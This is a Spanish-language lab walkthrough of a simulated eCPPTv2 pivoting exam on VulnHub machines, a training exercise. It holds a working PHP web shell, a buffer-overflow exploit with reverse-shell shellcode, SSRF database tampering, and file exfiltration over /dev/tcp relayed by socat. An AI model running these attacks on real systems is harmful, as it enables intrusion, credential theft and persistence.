



# Pivoting: Simulación del examen eCPPTv2

## Introducción:

- Pivoting
    
    El **pivoting** (también conocido como “hopping”) es una técnica utilizada en pruebas de penetración y en el análisis de redes que implica el uso de una máquina comprometida para atacar otras máquinas o redes en el mismo entorno.
    
    Por ejemplo, si un atacante ha comprometido una máquina en una red corporativa, puede utilizar técnicas de pivoting para utilizar esa máquina como punto de salto para atacar otras máquinas en la misma red que de otra manera no serían accesibles. Esto se logra a través de la creación de túneles de comunicación desde la máquina comprometida a otras máquinas en la red.
    
    El pivoting puede ser utilizado para superar restricciones de seguridad que de otra manera impedirían a un atacante acceder a determinadas máquinas o redes. Por ejemplo, si una red corporativa utiliza segmentación de red para separar diferentes partes de la red, el pivoting puede ser utilizado para superar esta restricción y permitir que un atacante salte de una red a otra.

### Lista de máquinas

Máquina Windows 7 Home Enterprise 64-bit (Dumbledore): [https://nicolascoolman.com/es/download/imagen-iso-windows-7-enterprise/](https://nicolascoolman.com/es/download/imagen-iso-windows-7-enterprise/)

Máquina Windows 7 Home Premium 64-bit (Dumbledore): [https://nicolascoolman.com/es/download/imagen-iso-windows-7-enterprise/](https://nicolascoolman.com/es/download/imagen-iso-windows-7-enterprise/)

Máquina Windows 7 64-bit (Dumbledore) Alternativo: [https://www.ardilu.com/descargar/windows-7-ultimate](https://www.ardilu.com/descargar/windows-7-ultimate)

Máquina Aragog: [https://www.vulnhub.com/entry/harrypotter-aragog-102,688/](https://www.vulnhub.com/entry/harrypotter-aragog-102,688/)

Máquina Nagini: [https://www.vulnhub.com/entry/harrypotter-nagini,689/](https://www.vulnhub.com/entry/harrypotter-nagini,689/)

Máquina Fawkes: [https://www.vulnhub.com/entry/harrypotter-fawkes,686/](https://www.vulnhub.com/entry/harrypotter-fawkes,686/)

Máquina Matrix 1: [https://www.vulnhub.com/entry/matrix-1,259/](https://www.vulnhub.com/entry/matrix-1,259/)

Máquina Brainpan: [https://www.vulnhub.com/entry/brainpan-1,51/](https://www.vulnhub.com/entry/brainpan-1,51/)

### Configuración del entorno

- Pasos
    
    ### Configuración de las tarjetas de red:
    
    Paso 1: Primero crear 4 redes.
    
    Direccionamiento:
    
    ```bash
    VMNet2 -> 20.20.20.0/24
    VMNet3 -> 30.30.30.0/24
    VMNet4 -> 40.40.40.0/24
    VMNet5 -> 50.50.50.0/24
    ```
    
    
    
    Paso 2: Configurar las tarjetas de red de cada host.
    
    Nota: La primer máquina (Aragog) será la única que esté conectada a misma la red del atacante por medio del modo “Bridged Adapter”.
    
    | Máquina | Tarjetas de red |
    | --- | --- |
    | Attacker-Linux | 1: Bridged Adapter |
    | Attacker-Windows | 1: Bridged Adapter |
    | Aragog | 1: Bridged Adapter y 2: VMNet2 |
    | Nagini | 1: VMNet2 y 2: VMNet3 |
    | Fawkes | 2: VMNet3 |
    | Dumbledore | 1: VMNet3 y 2: VMNet4 |
    | Matrix | 1: VMNet4 y 2: VMNet5 |
    | Brainpan | 1: VMNet5 |
    
    Paso 3: Configurar manualmente el archivo “/etc/network/interfaces” de cada máquina.
    
    Verificar las interfaces asignadas:
    
    ```bash
    ip a
    ```
    
    
    
    Añadir estas interfaces en el archivo /etc/network/interfaces siguiendo esta estructura. Donde “interface1/interface2” son los nombres de las interfaces.
    
    ```bash
    auto <interface1>
    allow-hotplug <interface1>
    iface <interface1> inet dhcp
    
    auto <interface2>
    allow-hotplug <interface2>
    iface <interface2> inet dhcp
    ```
    
    
    
    Paso 4: En la máquina Dumbledore, agregar un “horcrux”, es decir, una flag en el escritorio y modificar las reglas de firewall en “Windows Firewall with Advanced Security” y agregar una regla para permitir conexiones al puerto 445 (SMB) tanto en “inbound” como “outbound”.
    
    Ahora modificar:  Computer Configuration -> Windows Settings -> Security Settings -> Local Policies -> Security Options -> "Network access: Named pipes that can be accessed anonymously" e incluir: "samr".
    
    Más info: [https://www.stigviewer.com/stig/windows_server_2008_r2_domain_controller/2019-01-16/finding/V-3338](https://www.stigviewer.com/stig/windows_server_2008_r2_domain_controller/2019-01-16/finding/V-3338)
    
    Una vez hecho eso, reiniciar la máquina.
    
    Paso 5: Una vez hecho esto y verificado que cada máquina tenga la configuración de red correctamente asignada, solo queda encender todas las máquinas.
    

    

### Notas:

1. Hacer “local port forwarding”para acceder a una máquina en un segmento de red diferente con ssh:

Eje: Host B tiene acceso a host C y este último tiene el puerto 22 abierto. Host A necesita acceso al puerto 22 del host C, host A puede conectarse al host B por ssh y, a la ves, hacer un “local port forwarding” para que el puerto 22 del host C sea accesible localmente por el puerto 22.

```bash
# En Host A
ssh root@hostB -L 22:hostC:22

# En host A
ssh root@localhost
# Así se accesa al host C
```

2. Se puede utilizar el mismo socat para múltiples redirecciones que van hacia el mismo destino, por ejemplo: la máquina Aragog redirige el tráfico de varias máquinas al puerto 1234 del atacante por el puerto 5050.

### Estructura de directorios a utilizar

Esta es la forma en la que se organizarán los directorios para cada máquina.

```bash
└── <IP de la máquina víctima>
    ├── content
    ├── download
    ├── exploits
    └── nmap
```

### Estructura de ventanas en la terminal

```bash
[Chisel Main Server]
[Chisel Clients]
[Socat Forwarders]
[Socat Shell]
[Attacker]
```

- Ejemplo (imágenes)
    
    [Chisel Main Server]
    
    
    
    [Chisel Clients]
    
    
    
    [Socat Forwarders]
    
    
    
    [Socat Shell]
    
    
    

### Direccionamiento de red

| Máquina | Interfaz #1 | Interfaz #2 |
| --- | --- | --- |
| Aragog | 192.168.0.103 | 20.20.20.4 |
| Nagini | 20.20.20.5 | 30.30.30.6 |
| Dumbledore | 30.30.30.4 | 40.40.40.6 |
| Matrix | 40.40.40.5 | 50.50.50.4 |
| Brainpan | 50.50.50.5 |  |

```bash
Aragog: 192.168.0.103 20.20.20.4
Nagini: 20.20.20.5 30.30.30.6
Dumbledore: 30.30.30.4 40.40.40.6
Matrix: 40.40.40.5 50.50.50.4
Brainpan: 50.50.50.5
```

### Escenario


*El direccionamiento difiere con el de la imagen.*

# Aragog

## Reconocimiento

```bash
# ARP Scan
arp-scan -I enp0s3 --localnet --ignoredups

# Verificar trazas ICMP de host destino
ping -c1 192.168.0.103
```

Se puede confirmar que la máquina víctima destino es una máquina Linux gracias a su TTL.


Ahora se hace un escaneo con nmap.

```bash
nmap -p- -sS --open -n -Pn 192.168.0.103 -oG nmap.log
nmap -p22,80 -sCV 192.168.0.103 -oN tports.log
```


En la captura se indica que se está utilizando un Debian pero ahora se buscará su codename para saber qué distribución de Debian se está utilizando. Para esto se hace una búsqueda en google utilizando la versión de los servicios e incluyendo la palabra “launchpad”.

Para ambos servicios se reporta un “Debian Buster”.


Se ve que hay un puerto 80 por lo que ahora se lanzará un pequeño fuzzer sobre ese puerto para detectar posibles rutas en la web.

```bash
nmap -p80 --script http-enum 192.168.0.103 -oN httpenum.log
```


La web parece contener un blog y está utilizando un wordpress. Antes de ver estas rutas, la página de primeras se ve de la siguiente manera.


Al verificar el blog, se puede ver que se está acudiendo a un nombre de dominio.


Después de agregar este dominio al “/etc/hosts”, la página ahora se ve así:


Debido a que la web está utilizando wordpress, se hará un escaneo con wpscan.

```bash
wpscan --url http://wordpress.aragog.hogwarts/blog/ 
--enumerate u,vp --plugins-detection aggressive 
--api-token <token>

--enumerate u,vp # Enumerar usuarios y plugins vulnerables
--plugins-detection <mode> # Modo en el que se detectarán 
# plugins: mixed, passive, aggressive
--api-token <token> # Indica un token a utilizar (esto 
# permite  más funcionalidades)
```


## Explotación (CVE-2020-25213)

Se encontró una vulnerabilidad que permite subir un archivo y conducirlo a un RCE.

POC: https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py

```bash
https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py

<html>
<body>
  <form method="POST" enctype="multipart/form-data" action="https://example.com/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php">
    <input type="hidden" name="cmd" value="upload"/>
    <input type="hidden" name="target" value="l1_Lw"/>
    <input type="file" name="upload[]"/><br/><br/>
    <input type="submit" value="Upload"/>
  </form>
</body>
```

Para explotarlo, se copiará el script de python y se creará un archivo “payload.php” con el siguiente contenido:

```bash
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Después de ejecutar el script, se proporcionará la ruta en donde se insertó el payload.php en la web.

```bash
python3 exploit.py http://wordpress.aragog.hogwarts/blog
```


## Escalada de privilegios (Aragog)

Una vez dentro de la máquina, se puede ver que esta tiene dos interfaces de red, esto significa que podría tener conexión con otras máquinas o redes.


Enumerando más el sistema, se pueden ver más usuarios y un archivo de configuración “wp-config.php” en el que figura otro archivo de configuración el cual contiene credenciales de root para la base de datos.


En la base de datos se encontraron credenciales del usuario hadrid98 y su contraseña está hasheada pero era débil y se pudo crackea con JohnTheRipper.


Con esto se obtiene el primer horcrux.


Ahora haciendo uso del siguiente script para detectar tareas cron, se puede ver que el usuario root está ejecutando cada cierto tiempo el archivo “/opt/.backup.sh”.

```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
	new_process=$(ps -eo user,command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker"
	old_process=$new_process
done
```


Este archivo es del propio usuario hagrid98 por lo que se puede modificar para que root ejecute un comando, en este caso, para que otorgue permiso SUID a la bash.


Ahora para mantener persistencia, se insertará la llave pública de la máquina local en el archivo “authorized_keys” de la máquina víctima.

# Nagini

## Reconocimiento

Recodando un punto anterior, la máquina Aragog cuenta con dos interfaces, una de ellas está utilizando otro segmento de red por lo que ahora se aplicará un descubrimiento de hosts.

Esto se puede hacer de dos formas, la primera es utilizando un script local en la máquina víctima que sirva para descubrir hosts y puertos abiertos y la otra es creando un túnel con chisel para que la máquina del atacante pueda ver las redes visibles en la máquina cliente. A continuación se muestran ambas opciones.

### Uso de script en bash

Este script sirve para descubrir hosts activos.

```bash
#!/bin/bash

for i in $(seq 1 254); do
	timeout 1.5 ping -c1 20.20.20.$i &>/dev/null && echo "[+] Host 20.20.20.$i is ACTIVE" &
done; wait
```


En este caso, la IP víctima es la “20.20.20.5”, ahora se hará un descubrimiento de puertos con el siguiente comando.

```bash
for i in $(seq 1 65535); do echo '' > /dev/tcp/20.20.20.5/$i && echo "[+] Port $i is OPEN" >> t.txt; done; clear; cat t.txt
```


### Uso de chisel


La idea es crear un túnel para que la máquina atacante pueda ver todas las redes que son visibles desde la máquina víctima.

Es necesario que el servidor y el cliente tengan el chisel instalado.

Para transferir el chisel a la máquina víctima, se utilizará SSH.

```bash
# Desde la máquina local
scp chisel root@192.168.0.103:/tmp/chisel
```

Esto copiará el chisel en el directorio “/tmp/” de la máquina víctima.

Una vez copiado el chisel en la máquina víctima se le debe dar permisos de ejecución.

Ahora se creará un servidor con chisel en la máquina del atacante en escucha por el puerto 1234.

```bash
# SERVIDOR
./chisel server --reverse -p 1234

--reverse # Permite que los clientes hagan Port-Forwarding
-p # Indicar un puerto en escucha
```

Ahora el cliente se debe conectar al servidor.

```bash
# CLIENTE
	# Hacer que el puerto 80 de la máquina atacante 
	# sea el puerto 80 de la máquina víctima (Nagini)
	./chisel client 192.168.0.104:1234 R:80:20.20.20.5:80

	# Utilizar una conexión socks para que todas las redes
	# y puertos de la máquina víctima, sean visibles en la 
	# máquina del atacante por el puerto 9999 (si no se 
	# especifica el puerto, se usa el 1080 por defecto)
	./chisel client 192.168.0.104:1234 R:9999:socks
	./chisel client 192.168.0.104:1234 R:socks
```

Esto se hace desde la máquina Aragog y es para que todas las conexiones que tenga esta máquina, sean visibles en un puerto de la máquina atacante.

Ahora para que estas comunicaciones funcionen, es necesario redirigir todo el tráfico TCP hacia el puerto 1080 ya que es por donde la máquina del atacante tiene acceso a todas las conexiones de la máquina víctima. Para eso hay que modificar el archivo de configuración del proxychains (”/etc/proxychains.conf”) para añadir la dirección por donde este puerto 1080 está en escucha.

Nota: De momento se usará el “strict_chain” ya que solo hay un proxy.


### Nmap con hilos

Una vez hecho esto, la máquina del atacante puede alcanzar las redes de la máquina víctima por lo que ahora se hará un escaneo de puertos con nmap utilizando proxychains.

Al usar proxies, es posible que el escaneo se ralentice por lo que se usarán hilos para ejecutar tareas en paralelo y que el escaneo vaya más rápido.

```bash

seq 1 65535 | xargs -P 500 -I {} proxychains nmap -p{} 
-sT -Pn -n --open 20.20.20.5 2>&1 | grep "tcp open"

-P # Indica la cantidad de tareas a ejecutar en paralelo
-I # Marcador de psosición que reemplzará cada elemento 
# de la lista en donde se especifiquen las llaves "{}"

# Escaneo normal sin hilos
proxychains nmap -p- -sT -Pn -n --open 20.20.20.5 2>/dev/null -oN nmap.log

```

Nota: es necesario especificar los parámetros -sT y -Pn para que el proxychains funcione.

En este caso se crea una secuencia de números del 1 al 65535, luego con el pipe (”|”) se pasa la salida del secuenciador y lo pasa como argumento para xargs que lo que hace es indicar que se ejecutarán hasta 500 tareas en paralelo e indica un marcador de posición (”{}”) para reemplazar cada elemento en el parámetro -p.

Adicionalmente se puede ver el proceso del escaneo verificando los procesos actuales, esto mostrará los puertos procesados.

```bash
ps -faux | grep "nmap" | tail -n2 | head -n1
```

Al hacer el escaneo, se puede ver que el puerto 22 y 80 están abiertos.


Ahora se hará un descubrimiento de directorios y archivos a la web.

```bash
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/
Web-Content/directory-list-2.3-medium.txt 
--proxy socks5://127.0.0.1:9999 -x txt -u http://20.20.20.5/
```

Nota: Se podría utilizar proxychains al inicio del comando pero esto es poco óptimo.


Se encontró un note.txt y un directorio “joomla”, ahora para acceder a la pagina web desde el navegador, se configurará el foxyproxy para que la conexión pase por el puerto 9999.


La página web se ve de la siguiente manera.


El archivo note.txt muestra un mensaje en el que se indica un dominio que está utilizando HTTP3.


### Uso de quiche

Para poder tramitar peticiones por HTTP3, se utilizará quiche pero primero es necesario que la máquina Aragog haga port-forwarding para traerse el puerto 443 por UPD ya que HTTP3 depende este protocolo.

```bash
./chisel client 192.168.0.104:1234 R:9999:socks 
R:443:20.20.20.5:443/udp
```

Para instalar quiche, hay que descargar el repositorio de github: https://github.com/cloudflare/quiche

```bash
git clone --recursive https://github.com/cloudflare/quiche
cd quiche
cargo build --examples
cargo test
```

- Instalar dependencias
    
    ```bash
    # Instalar cargo
    apt install cargo
    
    # Instalar rustup
    apt remove rustc
    curl https://sh.rustup.rs -sSf | sh
    1
    source "$HOME/.cargo/env"
    
    # Actualizar cargo
    rustup update
    ```
    

Dentro del repositorio estará la herramienta “./target/debug/examples/http3-client“, esta servirá para hacer peticiones HTTP3.

```bash
./http3-client https://127.0.0.1
```

- Si el http3-client no funciona
    
    ```bash
    # Si ya se tiene el respositorio, solo usar el segundo  
    # y tercer comando
    git clone --recursive https://github.com/cloudflare/quiche && cd quiche
    git checkout -b FixHTTP3 a22bb4b3cb474425764cb7d7b6abd112824994a2
    cargo build --examples
    ```
    


En el mensaje se menciona el recurso “/internalResourceFeTcher.php”, además avisa que no se deben poner archivos backup de configuración.

### SSRF + socat

El recurso que se mencionó es el siguiente y permite hacer peticiones a páginas web y mostrar el contenido de esta, como un iframe, además es vulnerable a SSRF ya que permite hacer peticiones a cualquier dirección URL.


Por ejemplo, se hará una petición a un servidor web montado con python3 en la máquina del atacante. De primeras la máquina Nagini no puede alcanzar ese servidor web, sin embargo, se puede usar la máquina Aragog como nodo intermediario que reenviará todo el tráfico que reciba desde un puerto a la máquina del atacante al puerto 80. Esto se hará con la herramienta socat.

```bash
# Instalación
git clone https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat
```

Uso:

```bash
# Ejecutar en la máquina Aragog
./socat TCP-LISTEN:2020,fork TCP:192.168.0.104:80

TCP-LISTEN: # Indica el puerto que estará en escucha
TCP: # Indica la dirección a la que será reenviada la 
# petición
```

La máquina Aragog tomará todo el tráfico que entre por el puerto 2020 y lo reenviará a la máquina del atacante por el puerto 80.


### Uso de joomscan

Ya que servidor está corriendo un joomla por detrás, se hará un escaneo a este CMS con la herramienta joomscan: https://github.com/OWASP/joomscan

```bash
proxychains perl joomscan.pl -u http://20.20.20.5/joomla/ 2>/dev/null
```


### Uso de Gopherus

Se encontró un archivo de backup en el cual se está haciendo conexión a la base de datos mysql con el usuario “goblin” sin proporcionar contraseña.


Cuando se tiene un escenario en el que hay un SSRF y las credenciales de la base de datos no requiere contraseña, se puede pensar en usar la herramienta Gopherus.

Con la herramienta Gopherus se crearán querys especialmente diseñadas para hacer peticiones a la base de datos y extraer información de ella a partir del SSRF.

Instalación:

```bash
git clone https://github.com/tarunkant/Gopherus
cd Gopherus
./install.sh
```

Uso:

```bash
gopherus --exploit mysql

Give query to execute:
	# Enumerar bases de datos
	SHOW databases;
	# Enumerar tablas de una base de datos
	SHOW tables FROM joomla;
	USE joomla; SHOW tables;
	# Ver información de las columnas de una tabla
	USE joomla; describe joomla_users;
	# Extraer datos de columnas
	USE joomla; SELECT name,username,email,password from joomla_users;
	
--exploit # Indica qué es lo que se quiere explotar (
# mysql, postgress, etc.)
```

Esto creará un petición especial que se insertará en el campo vulnerable a SSRF.


Se puede ver que hay dos bases de datos: “information_schema” y “joomla”, en este caso interesa la de “joomla”.


Nota: Es posible que al enviar la petición, sea necesario recargar varias veces para ver el resultado de la query.

Finalmente se listan los datos de las columnas “name”, “username”, “email” y “password”.


La contraseña del admin está hasheada y no se pudo crackear, sin embargo, se puede crear una query para actualizar la tabla y cambiar la contraseña del usuario “site_admin”.

Primero se hasheará la nueva contraseña:

```bash
echo -n "dancer" | md5sum
```

Ahora se crea la query:

```bash
gopherus --exploit mysql

Give query to execute:
	# Actualizar datos de una columna
	USE joomla; UPDATE joomla_users SET password="6b19beeaedade171ecc320ddd87f7ae6"
	WHERE username="site_admin";
```


El sitio web tiene expuesto el portal de logueo para administradores “/administrator/index.php” por lo que ahora se podrá acceder al panel administrativo con las nuevas credenciales.


Para ganar acceso a la máquina, hay que ir a “Templates/Templates/Seleccionar un template”, se mostrarán varios archivos PHP, en este caso se aprovechará del “error.php”, este se ejecutará cuando se genere un error en la web.


Se insertará código PHP para que cuando se genere un error, se envíe una reverse shell a la máquina del atacante.


De primeras no va a llegar por lo que se utiliza socat para que la máquina Aragog reciba esta reverse shell por la interfaz 1010 y la reenvíe a la máquina del atacante al puerto 4646

```bash
# En la máquina Aragog
./socat TCP-LISTEN:1010 TCP:192.168.0.104:4646

# En la máquina del atacante
nc -nlvp 4646
```

Ahora se genera un error, por ejemplo, haciendo una petición a la dirección: http://20.20.20.5/joomla/index.php/<>


En el directorio /home/ se encuentran dos carpetas de usuarios.


En el directorio de hermoine hay un binario SUID el cual actúa como un cp.


Se podría aprovechar de esto para copiar un archivo authorized_keys con la llave pública del atacante y meterla en el directorio .ssh de hermoine.


Ahora es posible conectarse por medio de ssh como el usuario hermoine utilizando proxychains:

```bash
proxychains ssh hermoine@20.20.20.5
```


### Uso de firepwd

Dentro del directorio de hermoine hay un directorio .mozilla, esto significa que puede llegar a haber perfiles de usuarios con contraseñas, en este caso dentro del directorio firefox hay un perfil creado y dentro de él están los archivos “key4.db” y “logins.json”.


Con estos archivos es posible obtener las credenciales en texto plano usando la herramienta firepwd.

Instalación:

```bash
git clone https://github.com/lclevy/firepwd
cd firepwd
python3 -m venv env1
source env1/bin/activate
pip3 install -r requirements.txt
```

Nota: en este caso se usará un entorno virtual para instalar los requerimientos y evitar problemas.

Ahora se transferirán los archivos key4.db y logins.json a la máquina atacante, para esto se usará la máquina Aragog de nodo intermediario con socat.

```bash
# En la máquina Aragog
./socat TCP-LISTEN:2020,fork TCP:192.168.0.104:3030

# En la máquina atacante
nc -nlvp 3030 > key4.db

# En la máquina Nagini
cat < key4.db > /dev/tcp/192.168.0.103/2020
```

Ahora se ejecuta el firepwd y se obtienen las credenciales en texto plano

```bash
python3 firepwd
```


Ahora es posible loguearse como root y ver el siguiente horcrux3.txt


Ahora para crear persistencia se inserta la llave pública del atacante dentro del directorio “.ssh”.

# Fawkes

## Reconocimiento

La máquina Nagini tiene otra interfaz que podría contener más máquinas conectadas por lo que se hará un descubrimiento de hosts con el script de bash previamente usado.


En este caso, hay dos máquinas, y gracias a su TTL, se puede saber que una es Linux (64) y la otra es Windows (128). Primero se lidiará con la Linux y se hará un escaneo de puertos.

### Uso de chisel + socat

De primeras la máquina de atacante no puede alcanzar la máquina Fawkes pero se hará que la máquina Nagini, con chisel, traiga todas sus conexiones para que sean accesibles por un puerto en la máquina del atacante y la máquina Aragog servirá de intermediario para redirigir todo el flujo de conexiones de la Nagini al servidor chisel del atacante con socat.

```bash
# En la máquina atacante transferir el chisel a la Nagini
proxychains scp chisel root@20.20.20.5:/root/chisel
```

Hacer la máquina Aragog un nodo intermediario con socat.

```bash
./socat TCP-LISTEN:1337,fork TCP:192.168.0.104:1234
```

Conectar la máquina Nagini al servidor de chisel del atacante por medio de la Aragog.

```bash
./chisel client 192.168.0.103:1337 R:9998:socks
```

Por último, hay que modificar el archivo “/etc/proxychains.conf” para agregar el nuevo proxy SOCKS5 encima del otro, además como se usará más de un proxy, ahora se debe utilizar “dynamic_chain” en lugar de “strict_chain”.

Nota: cada nuevo proxy se debe agregar arriba del anterior.


### Escaneo de puertos con nmap

Ahora la máquina de atacante puede alcanzar la máquina Fawkes y con nmap se hará un escaneo de puertos.

```bash

seq 1 65535 | xargs -P 20 -I {} proxychains nmap -p{} -sT -Pn --open -n 30.30.30.5 2>/dev/null | grep "tcp open"

```


Está el FTP abierto y permite conexiones anónimas, sin embargo, al intentar listar los directorios, se muestra un mensaje “Address already in use”, esto es debido a que se genera conflicto con los proxies y para solucionarlo se usa el comando “passive”.


Esto contiene un archivo el cual es un binario que levanta un servidor por el puerto 9898 al ser ejecutado.


### Buffer Overflow

Al probar este binario e ingresarle muchas “A”, da un error “segmentation fault” esto significa que es vulnerable a Buffer Overflow.


Ahora se analizará esto en gdb.

```bash
# En la máquina atacante arracancar el programa con gdb
gdb ./server_hogwarts -q
r

# En la máquina atacante, conectarse al servidor 
# con netcat e ingresar las "A" para generar un BoF
nc localhost 9898
```


El binario además tiene las protecciones deshabilitadas por lo que se podría hacer un retorno al ESP para ejecutar un shellcode en el stack.


Para obtener el control del EIP, se creará una cadena especialmente diseñada para luego obtener el offset.

```bash
pattern create 300
```


Una vez obtenido el patrón, ahora se obtiene su offset.

```bash
pattern offset $eip
```

Esto calculará la cantidad de caracteres antes del EIP.


Para comprobar esto, se imprimirá una serie de caracteres con python3.

```bash
python3 -c 'print("A"*112 + "B"*4 + "C"*200)'
```


El EIP se sobrescribió con las “B” por lo que se pudo tomar el control de este registro.

Al inspeccionar 4 bits atrás del el stack (ESP), se puede ver que las cadenas “B” están justo antes de las “C”, eso significa que el ESP apunta al comienzo de las “C”.

```bash
# Mostrar 20 bytes y 4 bits antes del comienzo del ESP
x/20wx $esp-4
```


### Explotación de Buffer Overflow

Ahora se creará un script en python para explotar esto.

Primero se debe buscar la dirección de un OPCode que aplique un “Jump” al ESP. para esto se utilizará objdump.

Primero se obtendrá el OPCode correspondiente al “JMP ESP”.

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
jmp esp
```


El OPCode para JMP ESP corresponde a “ff e4”, ahora se buscará por direcciones en donde se aplique este OPCode en el binario con objdump.

```bash
objdump -D ./server_hogwarts | grep -i "ff e4"
```


Esta es la dirección a la que apuntará el EIP.

Ahora toca crear el shellcode con msfvenom. Hay que tomar en cuenta que para que la shell llegue a la máquina del atacante, debe pasar de la máquina Nagini a la Aragog y de la Aragog al atacante, esto utilizando socat.

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=20.20.20.5 LPORT=7777 -b "\x00" -f py -v shellcode
```



El script queda de la siguiente manera:

```bash
#!/usr/bin/python3

import socket
from struct import pack

# Variables globales
offset=112 # Cantidad de caracteres antes de sobrescribir el EIP
before_eip = b"A"*offset
eip = pack("<L", 0x8049d55) # EIP apunta al OPCode (JMP ESP)
# eip = b"\x55\x9d\x04\x08" <- Esta es una forma alternativa de representación
shellcode =  b""
shellcode += b"\xb8\xc0\xe8\x44\x67\xd9\xcb\xd9\x74\x24\xf4"
shellcode += b"\x5b\x33\xc9\xb1\x12\x83\xc3\x04\x31\x43\x0e"
shellcode += b"\x03\x83\xe6\xa6\x92\x32\x2c\xd1\xbe\x67\x91"
shellcode += b"\x4d\x2b\x85\x9c\x93\x1b\xef\x53\xd3\xcf\xb6"
shellcode += b"\xdb\xeb\x22\xc8\x55\x6d\x44\xa0\x7b\x93\xa8"
shellcode += b"\x36\xec\xa9\xd4\x28\x8d\x24\x35\xe4\x2b\x67"
shellcode += b"\xe7\x57\x07\x84\x8e\xb6\xaa\x0b\xc2\x50\x5b"
shellcode += b"\x23\x90\xc8\xcb\x14\x79\x6a\x65\xe2\x66\x38"
shellcode += b"\x26\x7d\x89\x0c\xc3\xb0\xca"

after_eip = b"\x90"*20 + shellcode
ip_addr = "30.30.30.5"
port = 9898

payload = before_eip + eip + after_eip

def exploit ():

    e = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    e.connect((ip_addr, port))

    e.send(payload)
    e.recv(1024)
    e.close

if __name__ == '__main__':
    exploit()
```

- Código: Versión 2
    
    ```bash
    #!/usr/bin/python3
    
    import socket
    
    # Variables globales
    offset=112 # Cantidad de caracteres antes de sobrescribir el EIP
    before_eip = b"A" * offset
    #eip = pack("<L", 0x8049d55) # EIP apunta al OPCode (JMP ESP)
    eip = b"\x55\x9d\x04\x08" # Esta es una forma alternativa de representación
    
    shellcode =  b""
    shellcode += b"\xbe\xcd\x33\xbd\xb6\xdd\xc6\xd9\x74\x24\xf4"
    shellcode += b"\x5a\x31\xc9\xb1\x12\x83\xc2\x04\x31\x72\x0e"
    shellcode += b"\x03\xbf\x3d\x5f\x43\x0e\x99\x68\x4f\x23\x5e"
    shellcode += b"\xc4\xfa\xc1\xe9\x0b\x4a\xa3\x24\x4b\x38\x72"
    shellcode += b"\x07\x73\xf2\x04\x2e\xf5\xf5\x6c\xaf\x1b\x18"
    shellcode += b"\x6a\xa7\x21\x24\x6c\x56\xaf\xc5\x20\xfe\xff"
    shellcode += b"\x54\x13\x4c\xfc\xdf\x72\x7f\x83\xb2\x1c\xee"
    shellcode += b"\xab\x41\xb4\x86\x9c\x8a\x26\x3e\x6a\x37\xf4"
    shellcode += b"\x93\xe5\x59\x48\x18\x3b\x19"
    
    after_eip = b"\x90"*32 + shellcode
    
    payload = before_eip + eip + after_eip
    
    e = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    e.connect(("30.30.30.5", 9898))
    e.send(payload)
    e.close
    ```
    

La shell llegará a la máquina Nagini pero para que esta llegue a la máquina del atacante, la Nagini debe utilizar socat para redirigir la shell a la máquina Aragog y esta la redirija a la máquina del atacante.

Primero enviar la herramienta socat a la Nagini.

```bash
proxychains scp socat root@20.20.20.4:/root/socat
```

Establecer la conexión de los túneles.

```bash
# En la máquina del atacante
nc -nlvp 7777

# En la máquina Aragog
./socat TCP-LISTEN:7777,fork TCP:192.168.0.104:7777

# En la máquina Nagini
./socat TCP-LISTEN:7777,fork TCP:20.20.20.4:7777
```

Ejecutar el exploit desde la máquina del atacante.

```bash
proxychains python3 exploit.py
```


Parece que se está en un contenedor y el usuario puede ejecutar cualquier comando como root y se puede ver el siguiente horcrux.


También hay un nota que indica que hay alguien tratando de conectarse al servidor ftp por lo que se utilizará tcpdump para interceptar el tráfico filtrando por datos de FTP.

```bash
tcpdump -i eth0 port ftp or ftp-data
```


Se encontró un usuario y una contraseña los cuales sirven para loguearse por medio de ssh y dentro del directorio del usuario neville hay otro horcrux.

```bash
proxychains ssh neville@30.30.30.5
```


Al buscar por permisos SUID, se puede ver el binario sudo. el cual contiene una versión vulnerable.


